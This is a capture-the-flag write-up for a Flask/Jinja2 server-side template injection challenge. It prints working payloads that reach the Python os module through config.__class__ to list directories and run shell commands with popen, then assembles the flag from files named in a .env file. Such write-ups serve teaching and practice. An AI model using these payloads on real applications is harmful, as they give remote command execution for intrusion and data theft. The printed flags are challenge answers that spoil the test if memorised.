




banner grab:


tested for html tag on web and reflected.



but haven't get great result on XSS.

Proceeding to SSTI and reflexted.


Research in flask ssti to enum dirs.
https://techbrunch.github.io/patt-mkdocs/Server%20Side%20Template%20Injection/#jinja2-dump-all-config-variables

Using this payload to list dirs.
```
{{config.__class__.__init__.__globals__['os'].listdir('.')}}
```
and for this case I made this:
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```



When print the ```flag.txt``` doesn't have real flag proceed to ```Minardi2002.txt``` file, also another diversion from author.

In .env got a message:
```

# Alex Yoong F1 Career Configuration
# Malaysia's First Formula 1 Driver Database

# F1 Career Files
F1_DEBUT_YEAR_FILE=/usr/1976.txt
MALAYSIAN_DRIVER_DATA=/var/malaysia.txt  
SEPANG_CIRCUIT_INFO=/tmp/f1.txt
```

Boom! These files were contains the flag pieces.\
/tmp/f1.txt = ``` 3108{d4r1_Ku4l4_Lumpur_k3 ```
/var/malaysia.txt = ``` 3_p3nt4s_duni4_Alex_Y00ng_ ```
/usr/1976.txt = ``` f1rst_M4l4ysi4n_F1_dr1v3r} ```

Success!
```
http://ctf.bahterasiber.my/share/solve?user_id=492&challenge_id=8&mac=b763e37bf75cdffa94b9549d02eafe0fd8a805fe
```